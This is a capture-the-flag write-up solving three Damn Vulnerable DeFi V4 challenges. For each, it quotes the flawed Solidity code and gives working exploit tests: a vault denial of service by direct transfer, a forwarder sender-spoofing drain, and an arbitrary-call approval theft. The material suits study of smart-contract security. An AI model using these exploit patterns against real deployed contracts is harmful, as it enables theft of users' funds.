 # Damn Vulnerable DeFi

This is solutions of [Damn Vulnerable DeFi V4](https://www.damnvulnerabledefi.xyz)

### 1. Unstoppable

This topic is about vault flashloan. The idea comes from flashloan function that doing check in total supply and total assets. Let's see following the code below :

<details>

<summary> code </summary>

```javascript
function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
@>        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }

```

</details>

There is a difference between `totalSupply` and `totalAssets`. The `totalSupply` refers to the total amount of tokens that the `vault` has minted. Then, the `totalAssets` refers to all amount token DVT that the `vault` holds. So, if someone makes a transfer to `vault` with token DVT, The `totalAssets` will increase, creating a mismatch between `totalSupply` and `totalAssets`.

<details>

<summary> Solution </summary>

```javascript
    function test_unstoppable() public checkSolvedByPlayer {
        require(token.transfer(address(vault), INITIAL_PLAYER_TOKEN_BALANCE));
    }
```

</details>

### 2. Naive Receiver

In this topic, we work with flashloan, delegatecall and EIP-712 as well. In this case, the aims of the chalengge is moving all funds into recovery address and spending player funds. If we are not working with delegatecall, it is difficult to imagine how we would have difficult with it. Also, EIP-712 has it's own difficulty. In short, i have a scenario that :
- make 10 flashloans to spend player funds
- make one transaction to move all of funds to the recovery address
- keep all commands with the encode function with ABI
- At my difficulty, changing the format to EIP-712 is the hardest part

<details>

<summary> Solution </summary>

```javascript
function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDatas = new bytes[](11);
        for(uint8 i; i<10; i++){
            callDatas[i] = abi.encodeCall(pool.flashLoan, (receiver, address(weth), 0, ""));
        }
        callDatas[10] = abi.encodePacked(abi.encodeCall(pool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))), bytes32(uint256(uint160(deployer))));        
        bytes memory message = abi.encodeCall(pool.multicall, callDatas);
        BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: 30000000,
            nonce: forwarder.nonces(player),
            data: message,
            deadline: 1 days
        });

       bytes32 messageHash = keccak256(abi.encodePacked(
        "\x19\x01", 
        forwarder.domainSeparator(),
        forwarder.getDataHash(request)
       ));

       (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, messageHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        forwarder.execute(request, signature);
    }

```

</details>

### 3. Truster

Also in this topic, we work again with flashloan. The story that is the deployer sends many funds to the lender pool. If we are serious about reading the code, there are many things that look weird. Let focus with the following code below : 

<details>

<summary> Code </summary>

```javascript
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
@>      target.functionCall(data);

@>      if (token.balanceOf(address(this)) < balanceBefore) {
@>          revert RepayFailed();
        }

        return true;
    }
```

</details>

After seing the code, we must have some questions. Why does the protocol allow the low-level calls with unclear purposes? It can enable a players to set up the protocol at their will. So, the scenario would be :
- Take a flashloan with a zero amount
- Using a low-level call to get approval from the protocol for the attacker's address
- the attacker makes the transfer directly with the address token.

<details>

<summary> Solution </summary>

```javascript
function test_truster() public checkSolvedByPlayer {
        MaliciousUser attacker = new MaliciousUser(address(token), address(pool), recovery);
        attacker.attack();
    }

contract MaliciousUser {
    DamnValuableToken token;
    TrusterLenderPool pool;
    address recovery;

    constructor(address _token, address _pool, address _recovery){
        token = DamnValuableToken(_token);
        pool = TrusterLenderPool(_pool);
        recovery = _recovery;
    }

    function attack() public {
        uint256 amountOfPool = token.balanceOf(address(pool));

        pool.flashLoan({
            amount: 0,
            borrower: address(this),
            target: address(token),
            data: abi.encodeWithSignature("approve(address,uint256)", address(this), amountOfPool)
        });

        token.transferFrom(address(pool), recovery, amountOfPool);
    }
    
}
```

</details>